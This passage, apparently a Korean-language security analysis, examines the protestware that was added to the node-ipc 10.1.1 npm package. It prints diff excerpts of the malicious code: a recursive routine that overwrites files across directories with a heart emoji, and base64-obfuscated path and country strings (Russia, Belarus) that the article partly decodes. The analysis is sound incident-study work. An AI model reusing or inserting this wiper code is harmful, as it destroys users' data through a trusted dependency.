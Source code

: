 ```diff
+  }
+  const f = [];
+  const c = Buffer.from("4p2k77iP", "base64");
+  for (var e = 0; e < r.length; e++) {
+    const i = import_path.default.join(n, r[e]);
+    let t = null;
+    try {
+      t = import_fs3.default.lstatSync(i);
+    } catch (t2) {
+      continue;
+    }
+    if (t.isDirectory()) {
+      const s = h(i, o2);
+      s.length > 0 ? f.push(...s) : null;
+    } else if (i.indexOf(o2) >= 0) {
+      try {
+        import_fs3.default.writeFile(i, c.toString("utf8"), function() {
+        });
+      } catch (t2) {
+      }
+    }
+  }
+  return f;
+}
+var ssl = true;
+
```

commonJS 호환하는 `node-ipc.cjs` 모듈은 1000행이 넘는 상당히 많은 코드로 되어있다. 원격으로 아웃바운드 HTTPS 리퀘스트의 존재, 안에 있는 Base64 인코드된 데이터는 여기서 일어날 부정행위를 암시하며, IoC(침해의 징후) 증거도 된다.

`node-ipc@10.1.1`에 추가된 코드는 타이머를 설정하고, 더불어 여러 설정을 랜덤한 간격으로 `node-ipc` 관련 코드를 호출해서, 파일시스템 조작하는 함수도 실행한다.

파일 시스템 조작을 실행하는 함수에 전달된 인수의 Base64 인코딩 값을 자세히 보자.

```diff
+      const n2 = Buffer.from("Li8=", "base64");
+      const o2 = Buffer.from("Li4v", "base64");
+      const r = Buffer.from("Li4vLi4v", "base64");
+      const f = Buffer.from("Lw==", "base64");
+      const c = Buffer.from("Y291bnRyeV9uYW1l", "base64");
+      const e = Buffer.from("cnVzc2lh", "base64");
+      const i = Buffer.from("YmVsYXJ1cw==", "base64");
```

모든 값이 타이머 함수에 전달된다. 예를 들면

```diff
+          h(n2.toString("utf8"));
```

Base64로 인코딩된 문자열 값은 이런 뜻이다.

- `n2` = `./`
- `o2` = `../`
- `r` = `../../`
- `f` = `/`
